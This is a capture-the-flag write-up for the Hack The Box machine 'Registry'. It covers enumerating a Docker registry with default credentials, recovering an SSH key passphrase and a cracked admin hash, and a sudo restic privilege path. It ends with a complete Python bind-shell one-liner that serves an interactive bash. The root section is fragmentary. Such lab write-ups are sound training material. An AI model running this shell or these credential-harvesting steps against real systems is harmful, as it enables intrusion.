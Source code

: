 ![](./logo.png)

Running some enumeration on the box gives us port `22`, `80` and `443` open and running. 

The first interesting thing to notice is the `commonName` in the self-signed SSL certificate: `docker.registry.htb`. Commonly boxes will have dynamic host redirection. 

Therefore, due to the lack of DNS with HTB adding this to the `/etc/hosts` file lets us resolve this address to the box IP.

This then gives us a completely blank page?

Running `gobuster` on all endpoint gives us a `/v2` endpoint!

With some research it shows this endpoint as a `docker hub`. With a little trial and error it shows default creds:
```
admin:admin
```

A `docker` hub is designed to be able to host docker images that may be required locally.

In order to look at the available repos we can navigate to the `_catalog` directory.
```
http://docker.registry.htb/v2/_catalog
```

This shows us an image called `bolt-image`.

In order to download this image locally we need do a little setup. Because `docker` will get mad about a self-signed certificate we need to add the url to `insecure-registries`. Below is the file and contents:

Filepath:
```
/etc/docker/daemon.json
```

Contents:
```
{
  "insecure-registries" : ["docker.registry.htb"]
}
```

This will now let us pull the image like so:
```
sudo docker pull docker.registry.htb/bolt-image
```

We can then launch a shell on the container like so:
```
sudo docker run -it docker.registry.htb/bolt-image /bin/bash
```

This lets us look around the container file system.

Looking around shows us `.ssh` keys in the the `/root` directory. They are for the user `bolt`, but are password protected. A quick brute force gave no results, therefore, another method is needed.

Looking in the user directory shows us a `.vimprofile` file. This contains reference to a file `/etc/profile.d/01-ssh.sh`. This file contains:

```bash
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

This gives us the password for the `ssh` key:

```
GkOcz221Ftb3ugog
```

This lets us log on and grab the `user.txt`!

# ROOT

```php
<?php 
    shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
?>
```

```
1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-10-17 14:34:52|10.10.14.2|Admin|["files://shell.php"]|1||||0||["root","everyone"]
```

Cracking it gives us

```
admin:strawberry
```

```
User www-data may run the following commands on bolt: (root) NOPASSWD: /usr/bin/restic backup -r rest* ---
```

We can obtain a shell by using a python bind shell:

```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```